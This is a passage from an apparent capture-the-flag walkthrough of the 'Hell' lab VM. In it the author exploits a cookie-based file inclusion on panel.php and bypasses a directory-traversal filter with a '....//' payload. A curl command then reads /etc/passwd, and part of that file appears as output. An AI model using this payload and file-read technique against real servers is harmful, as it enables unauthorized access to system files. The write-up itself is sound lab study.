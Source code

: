 ```bash Hell file include testing
<H3> Email's recieved in the last 24 hours: </H3>2<BR>
<H3> Current Status: Firewall Activated </H3><BR>
<IMG SRC="http://i.imgur.com/JjipeOj.gif">
</HTML>
</HTML>
```

YES. It **does** work! We have the same output added to the `panel.php` output as we would have if we browsed directly to `mail.php`. By now the assumption was that the code had something like:

```php Hell File Include assumption
if ($_COOKIE['intruder']) {
   include($_COOKIE['intruder']);
}
```

...with some kind of filtering preventing reading the `/etc/passwd`. While I was still pretty excited about finding this vuln, I soon came across [this](https://www.owasp.org/index.php/Testing_for_Path_Traversal_(OWASP-AZ-001)#Gray_Box_testing_and_example) article detailing potential ways of bypassing directory traversal vulnerabilities. After reading this I promptly changed the `intruder` cookie to `....//....//....//....//....//etc/passwd` and viola! :)

```bash Hell Directory Traversal
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  failcount   4
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  intruder ....//....//....//....//....//etc/passwd

root@kali:~# curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php -c cookies -b cookies

<HTML>
<CENTRE>
<H2> Folders </H2>
<TABLE style="width:700px" align="center">
<TR>
   <TD><A HREF="server.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="mail.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="users.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="personal.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="notes.php"><IMG SRC='folder.png'></A></TD>
</TR>
<TR>
   <TD><H4>Server Status</H4></TD>
   <TD><H4>Mail Status</H4></TD>
   <TD><H4>Auth Users</H4></TD>
   <TD><H4>Personal Folder</H4></TD>
   <TD><H4>Notes</H4></TD>
</TR>
</CENTRE>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
```